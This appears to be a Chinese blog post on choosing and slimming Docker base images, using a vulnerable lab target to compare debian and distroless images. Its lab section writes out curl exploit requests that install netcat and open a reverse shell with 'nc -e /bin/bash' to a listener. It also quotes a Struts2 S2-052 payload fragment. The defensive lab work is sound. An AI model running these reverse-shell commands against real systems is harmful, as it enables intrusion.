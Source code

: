 ```yaml
---
layout: post
title: 从 shell 反弹实现分析 解决 Dockerfile 基础镜像选择及精简
categories: [docker, security]
description: 优化精简容器镜像， 降低 shell 反弹攻击风险
keywords: docker, dockerfile, security, shell 
---
```


# 从 shell 反弹实现分析 解决 Dockerfile 基础镜像选择及精简

天天都在说优化 Dockerfile。 到底怎么优化， 优化后的检验指标又是什么？ 没有考虑清楚行动目的， 隔空放炮， 必然徒劳无功。

笔者最近准备在 CI 上增加安全检测， 在分析案例样本的时候， 找到了比较流行的 struts2 漏洞， 其中 [S2-052 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-052/README.zh-cn.md) 的利用方式就是在 POST 请求中添加恶意代码或命令。

如 Demo 片段所示。

```xml
                      <command>
                        <string>touch</string>
                        <string>/tmp/success</string>
                      </command>
```

## 0x01 确认目标

既然可以远程执行命令了， 那么如何拿到服务器权限也就是必然考虑的事情， 如 `webshell` 、 `shell 反弹` 等 。 

在翻阅的搜索引擎靠前《常见 shell 反弹方式和利用》的文章之后，总结如下。 

**shell 反弹** 即 **使用 `1. 任意方式` 将 `2. /bin/sh` 通过 `3. 网络连接` 方式连接到 `4. 攻击机`**

其中 **任意方式** 常见为:

1. 使用各种 `程序命令` 创建 shell 网络通信
2. 使用各种 `编程语言` 即使构造 shell 网络通信， **对于解释型语言而言，即为依赖运行环境**。
3. 使用 `操作系统中的设备文件` 创建 shell 网络通信。

以上 4个 条件中， 在预设环境中， 能管理的就有 `1. 任意方式` 和 `2. /bin/sh`。 
优化镜像目标已经很明确了， 精简环境， 减少 `1. 和 2.` 的存在


## 0x02 环境准备

根据目标， 设计了一个靶机， 功能是将 POST 的命令直接转换成命令执行。 代码已经放在 Github 上， [任意命令执行漏洞靶机](https://github.com/tangx/vulhub/tree/master/cmd/shell/reflect2) 。

并产出了两个容器镜像。

+ `doslab/vulhub-reflect2:latest` 使用 debian 官方镜像
+ `doslab/vulhub-reflect2:static` 使用 debian 精简镜像， 更多信息参考 [GoogleContainerTools/distroless](https://github.com/GoogleContainerTools/distroless)  


### 0x02.1 部署靶机

```bash
## debian:buster
docker run --rm -d -p 8081:8080 doslab/vulhub-reflect2:latest

## distroless/debian-static10
docker run --rm -d -p 8082:8080 doslab/vulhub-reflect2:static
```

### 0x02.2 利用方式

向接口发送 JSON 数据， 方式如下

```bash
curl -X POST http://127.0.0.1:8081/v0/cmd -d '{
    "command":"ls",
    "args":["-l","-a","-h"]
}'
```

## 0x03 实验开始

### 0x03.1 lastest 靶机

```bash
nc -nvlp 4444
```

```bash
# latest
## nc -v 192.168.233.3 4444 -e /bin/bash
curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8081/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "4444", "-e", "/bin/bash"]
}'
```


### 0x03.2 static 靶机

**攻击机** 准备监听端口 `5555`

```bash
nc -nvlp 5555
```

**漏洞利用**

```bash
# static
curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"bash",
    "args":["--version"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["update"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"apt",
    "args":["install", "-y", "netcat"]
}'

curl -X POST http://192.168.233.3:8082/v0/cmd -d '{
    "command":"nc",
    "args":["-v", "192.168.233.3", "5555", "-e", "/bin/bash"]
}'
```

## 0x04 结论

在使用了 **google distroless 镜像** 之后， 在一定程度上阻止了服务漏洞带来的 **常见 shell 反弹攻击** 。 尤其是在类似 golang 这类编译型的语言， 运行环境需求相对简单。

同时， 也带来了另外一个问题 **研发团队需要更好的实现单元测试** 以确认更少的系统依赖。


## 0xGG 参考文档

+ [反弹Shell原理及检测技术研究](https://www.cnblogs.com/LittleHann/p/12038070.html#_label0)
+ [linux各种一句话反弹shell总结](https://www.anquanke.com/post/id/87017)
+ [反弹shell利用方式](https://www.cnblogs.com/ktfsong/p/11265734.html)

